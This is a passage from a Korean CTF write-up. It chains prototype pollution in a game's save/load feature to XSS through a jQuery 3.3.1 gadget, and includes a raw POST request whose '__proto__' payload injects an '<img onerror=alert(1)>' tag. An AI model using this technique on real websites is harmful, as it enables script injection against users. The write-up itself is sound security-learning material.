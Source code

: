 또한 해당 문제에서 Jquery 3.3.1을 사용 중이기 때문에 XSS 가젯을 찾고, 해당 가젯을 오염 시켜 XSS를 트리거 하기로 했습니다.
```javascript
  $(document).off('keydown')
  document.addEventListener('keydown', keyboardEventHandler)
  $(document).off('touchmove')
```
loadGame() 함수를 자세히 보니 내부에 XSS 가젯이 존재하는 것을 확인할 수 있었습니다.

```javascript
async function keyboardEventHandler(e) {
  //space 키 => c
  if(e.keyCode == 67) {
    cGameInfo.cPiece.moveEndDown();
  //왼쪽 화살표 => a
  } else if(e.keyCode == 65) {
    cGameInfo.cPiece.moveLeft();
  //위쪽 화살표 => w
  } else if(e.keyCode == 87)  {
    cGameInfo.cPiece.rotate();
  //오른쪽 화살표 => d
  } else if(e.keyCode == 68)  {
    cGameInfo.cPiece.moveRight();
  //아래 화살표 => s
  } else if(e.keyCode == 83)  {
    cGameInfo.cPiece.moveDown();
  //세이브 => p
  } else if(e.keyCode == 80) {
    await saveGame()
  // 로드 => l
  }else if(e.keyCode == 76) {
    await loadGame()
  }
}
```
loadGame() 함수는 자동으로 호출 해주지 않고, 키보드로 L, l을 입력해야 실행을 해주고 있었습니다.

```javascript
    await page.click('#playBtn')
    
    await page.keyboard.type('l')

    await new Promise(resolve => setTimeout(resolve, 1000))
```
하지만 관리자 봇에서 keyboard 메서드를 이용해서 l을 입력 하고 있기 때문에 관리자 봇에서도 결국엔 loadGame() 함수가 실행 되기 때문에 그냥 익스를 시도 하면 되겠다고 생각했습니다.

```http
POST /saveGame HTTP/1.1
Host: 20.194.62.226:4423
Content-Length: 198
Accept: application/json, text/plain, */* Chrome/92.0.4515.107 Safari/537.36
Content-Type: application/json;charset=UTF-8
Cookie: fileName=01f032bb-3210-4dd3-9555-078cfa75196d
Connection: close

{"data":{"__proto__":{"__proto__":{"preventDefault":"x", "handleObj":"x","delegateTarget":"<img/src/onerror=alert(1)>"}}}}
```
일단 XSS가 잘 되는 지 확인 하기 위해 위와 같이 게임을 저장한 후에 loadGame() 함수를 실행시켜 보았다.
